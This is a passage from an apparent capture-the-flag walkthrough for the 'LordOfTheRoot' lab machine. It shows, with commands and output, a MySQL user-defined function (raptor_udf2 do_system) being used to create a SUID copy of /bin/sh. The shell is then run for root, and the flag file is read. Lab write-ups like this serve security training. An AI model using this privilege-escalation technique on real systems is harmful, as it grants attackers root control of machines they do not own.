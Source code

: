 We can verify that the function exists.

```bash
mysql> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
1 row in set (0.04 sec)
```

We copy the /bin/sh binary to tmp directory and we grant it SUID permissions.

```bash
mysql> select do_system('cp /bin/sh /tmp/sh && chmod 4777 /tmp/sh');
+-------------------------------------------------------+
| do_system('cp /bin/sh /tmp/sh && chmod 4777 /tmp/sh') |
+-------------------------------------------------------+
|                                                     0 |
+-------------------------------------------------------+
1 row in set (0.01 sec)

mysql> quit;
Bye
```

As we can see our binary was copied, we execute it and get root.

```bash
smeagol@LordOfTheRoot:~$ ls -la /tmp/sh 
-rwsrwxrwx 1 root root 112204 Nov  9 13:23 /tmp/sh
smeagol@LordOfTheRoot:~$ /tmp/sh
# id
uid=1000(smeagol) gid=1000(smeagol) euid=0(root) groups=0(root),1000(smeagol)
# python -c "import os; os.setuid(0); os.setgid(0); os.system('/bin/bash')"
root@LordOfTheRoot:~# cd /root
root@LordOfTheRoot:/root# ls
buf  buf.c  Flag.txt  other  other.c  switcher.py
root@LordOfTheRoot:/root# cat Flag.txt 
“There is only one Lord of the Ring, only one who can bend it to his will. And he does not share power.”
– Gandalf
```
